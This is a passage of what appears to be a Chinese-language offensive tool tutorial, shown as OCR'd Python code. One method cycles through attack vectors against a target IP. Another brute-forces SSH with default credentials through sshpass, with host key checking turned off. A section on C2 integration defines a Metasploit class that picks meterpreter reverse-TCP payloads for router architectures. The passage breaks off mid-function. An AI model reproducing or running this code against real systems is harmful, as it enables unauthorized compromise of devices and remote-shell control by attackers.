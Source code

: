 ```python
    
    def _attempt_compromise(self, target_ip):
        """尝试攻陷目标"""
        # 尝试多种攻击向量
        attack_vectors = [
            self._ssh_bruteforce,
            self._web_exploit,
            self._snmp_attack,
            self._pass_the_hash
        ]
        
        for vector in attack_vectors:
            if vector(target_ip):
                return True
        
        return False
    
    def _ssh_bruteforce(self, target_ip):
        """SSH暴力破解"""
        try:
            # 使用已知凭证或常见组合
            credentials = [
                ('admin', 'admin'),
                ('root', '123456'),
                ('user', 'password')
            ]
            
            for username, password in credentials:
                cmd = f"sshpass -p '{password}' ssh -o StrictHostKeyChecking=no {username}@{target_ip} 'id'"
                result = self.initial_exploit.run(cmd)
                if result and "uid" in result:
                    return True
        except:
            pass
        
        return False
```

---

## 五、与C2框架集成

### 1. Metasploit 集成

```python
class MetasploitIntegration:
    """与Metasploit框架集成"""
    
    def __init__(self, msf_rpc_host='127.0.0.1', msf_rpc_port=55553):
        self.msf_rpc_host = msf_rpc_host
        self.msf_rpc_port = msf_rpc_port
    
    def generate_router_payload(self, target_arch='mipsle'):
        """生成路由器架构的Payload"""
        payloads = {
            'mipsle': 'linux/mipsle/meterpreter_reverse_tcp',
            'mipsbe': 'linux/mipsbe/meterpreter_reverse_tcp', 
            'armle': 'linux/armle/meterpreter_reverse_tcp',
            'aarch64': 'linux/aarch64/meterpreter_reverse_tcp'
        }
        
        payload = payloads.get(target_arch, 'linux/mipsle/meterpreter_reverse_tcp')
```